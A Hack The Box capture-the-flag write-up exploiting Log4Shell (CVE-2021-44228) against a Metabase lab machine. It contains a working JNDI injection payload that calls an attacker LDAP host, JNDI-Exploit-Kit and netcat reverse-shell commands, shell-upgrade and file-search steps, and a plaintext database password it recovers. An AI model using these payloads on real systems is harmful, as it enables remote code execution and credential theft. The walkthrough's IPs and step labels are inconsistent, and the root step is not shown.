

## Synopsis
Remote Code Execution vulnerability in apache Log4j2 ≤= 2.14.1

Allows attackers to execute arbitrary system command by loading code from an attacker-controlled LDAP server via the Java Naming Directory Interface JNDI reported by [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)
[Metabase](https://www.metabase.com/) is a BI tool with friendly UX and intergrated tooling to let your company explore data on their own. This Hack the box machine is considerd as **Very Easy**
## :scroll: TL:DR :scroll:
Scan ports and use basic enumeration.
find **user** and **root flag** trough remote code execution. Therefore use this  [exploit](https://github.com/pimps/JNDI-Exploit-Kit/) and setup `netcat` using kali linux as our OS.  
## :rocket: getting started :rocket:
We add the `domain` and `ip` to `/etc/hosts` .
```
echo "10.10.69.123 metabase.htb" | sudo tee -a /etc/hosts
```
## enumeration
As we start with a `nmap` scan it revails a `nginx server` listening on port 80 and we are redirected to `metabase.htb`.

We also look for something interesting in source code with `curl`
```sh
curl -v metabase.htb
```


## Expliotation
We found the information here for `JNDI injections` vulnerabilities. Public expliots are available. We look for  a suitable [exploit](https://github.com/pimps/JNDI-Exploit-Kit/) and download the available compiled version to our kali linux:
```sh
wget https://github.com/pimps/JNDI-Exploit-Kit/raw/master/target/JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar
```

## Privilege Escalation
Getting prepared for privilege escalation we have to setup `netcat` and we listen on port `4444`.
```sh
nc -lvnp 4444
```

Now we can run this exploit by specifiying the LDAP server adress `IP:port` with the `-L` option and the adress of our listener with the `-S` option:

```sh
java -jar JNDI-Exploit-Kit-1.0-SNAPSHOT-all.jar -L 10.10.14.7:1389 -S 10.10.14.22:4444
```

We pick the LDAP payload targeting with `trustURLCodebase=true` and type the following string to the Native query Matabase page

NOTE: While suggesting otherwise the option `JDK 1.8` was not working for me.

We add a query in `sample data`:
```sh
${jndi:ldap://10.10.17.169:1389/57sbhf}
```


Now we see in our terminal a succesfull privilege escalation en try to upgrade our shell to a fully interactive pty. Due to the fact `python3` is installed on the host, we run:
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

We can now search for files owned by the **metabase** group:
```sh
find / -group metabase -ls 2>/dev/null | grep -v /proc
```
A password is found in plain text in a `metabase` database `/etc/default/metabase`:
```sh
cat /etc/default/metabase
MB_DB_PASS=fHj3sxZ0.f
```

## Wrap it up!
the user flag is found in `/opt/metabase/user.txt`
The root flag is found in `root/root.txt`


## :old_key:NOTES:

### :mortar_board: Lessens learned
1. JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints.
2. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.
3. Make proper notes, I did not make all the notes carefully :bowtie:
4. Metabase is an open-source Business Intelligence tool and helps you question your data and display answers in usefull formats and creating dashboards. 
